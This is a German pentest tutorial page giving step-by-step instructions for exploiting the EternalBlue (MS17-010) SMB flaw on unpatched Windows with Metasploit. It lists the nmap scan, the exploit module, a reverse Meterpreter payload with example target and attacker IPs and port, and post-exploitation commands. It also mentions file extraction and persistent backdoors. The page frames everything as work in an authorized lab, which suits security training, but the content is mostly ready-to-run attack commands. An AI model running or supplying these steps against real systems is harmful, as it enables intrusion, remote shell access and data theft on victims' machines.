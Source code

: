 ```yaml
---
description: >-
  In diesem Abschnitt wird exemplarisch gezeigt, wie du mit dem Exploit in einer
  autorisierten Testumgebung vorgehen kannst. Wir verwenden dazu Metasploit, da
  es eine etablierte Plattform für solche Tes
---
```


# 2. Praxisanleitung – Wie man EternalBlue einsetzt

#### 2.1 Vorbereitung der Testumgebung

* **Lab-Setup:**
  * Erstelle eine isolierte Testumgebung (z. B. mithilfe von VirtualBox oder VMware), die ein ungepatchtes Windows-System (z. B. Windows 7 oder Windows Server 2008) enthält.
  * Stelle sicher, dass dein Testnetzwerk keine Verbindung zu Produktionssystemen hat.
* **Zielerkennung:**
  * Scanne das Netzwerk, um potenzielle Ziele zu identifizieren, die SMB über Port 445 anbieten.
  *   Verwende Nmap, um zu überprüfen, ob MS17‑010 anfällig ist:

      ```bash
      nmap -p445 --script smb-vuln-ms17-010 <Ziel-IP>
      ```
  * Ein positiver Befund weist auf eine Anfälligkeit hin.

#### 2.2 Exploit mit Metasploit einsetzen

1.  **Metasploit starten:**\
    Öffne ein Terminal in deiner Testumgebung (Kali Linux beispielsweise) und starte die msfconsole:

    ```bash
    msfconsole
    ```
2.  **Modul auswählen:**\
    Lade das Exploit-Modul für EternalBlue (MS17‑010):

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```
3. **Einstellungen konfigurieren:**
   * **Zielsystem (RHOSTS):** Setze die IP-Adresse des Zielsystems.
   * **Angreifer-IP (LHOST):** Gib die IP-Adresse deines Testsystems (bzw. deiner Angriffsplattform) an, auf die der Rückkanal zeigt.
   *   **Payload:** Wähle einen passenden Payload aus, z. B. den Reverse Meterpreter:

       ```bash
       set payload windows/meterpreter/reverse_tcp
       ```
   *   **Weitere Optionen:**\
       Prüfe mit dem Befehl `show options` alle erforderlichen Einstellungen und passe sie gegebenenfalls an. Ein Beispiel:

       ```bash
       set RHOSTS 192.168.1.100
       set LHOST 192.168.1.50
       set LPORT 4444
       ```
4.  **Exploit ausführen:**\
    Nachdem alle Optionen gesetzt wurden, starte den Exploit:

    ```bash
    exploit
    ```

    * Falls das Ziel anfällig ist, sollte eine Verbindung aufgebaut und idealerweise eine Meterpreter-Shell gestartet werden.
5. **Nach dem Exploit – Post-Exploitation:**
   *   Erhalte Informationen über das Ziel mittels:

       ```bash
       sysinfo
       getuid
       ```
   * Führe weitere Post-Exploitation-Aktivitäten aus, wie z. B. Dateiextraktion, Netzwerk-Scanning oder das Erstellen persistenter Backdoors (nur in autorisierten Tests).

#### 2.3 Wichtige Hinweise und alternative Ansätze

* **Exploit-Erfolg:**\
  EternalBlue funktioniert nur auf Systemen, die nicht gepatcht sind. In aktuellen Netzwerken ist oft SMBv1 deaktiviert und MS17‑010 bereits behoben.
* **Zuverlässigkeit:**\
  Der Exploit kann in einigen Fällen instabil sein. Es kann hilfreich sein, zusätzliche Module (z. B. „doublepulsar“ oder manuelle Payload-Injektionen) in Betracht zu ziehen, sofern diese in deinem Testumfeld eingesetzt werden dürfen.
* **Alternativen:**\
  Neben Metasploit existieren auch PoC-Skripte und eigenständige Tools (z. B. aus GitHub) für EternalBlue. Diese erfordern jedoch meist zusätzliche Anpassungen und sind weniger benutzerfreundlich als der Metasploit-Ansatz.

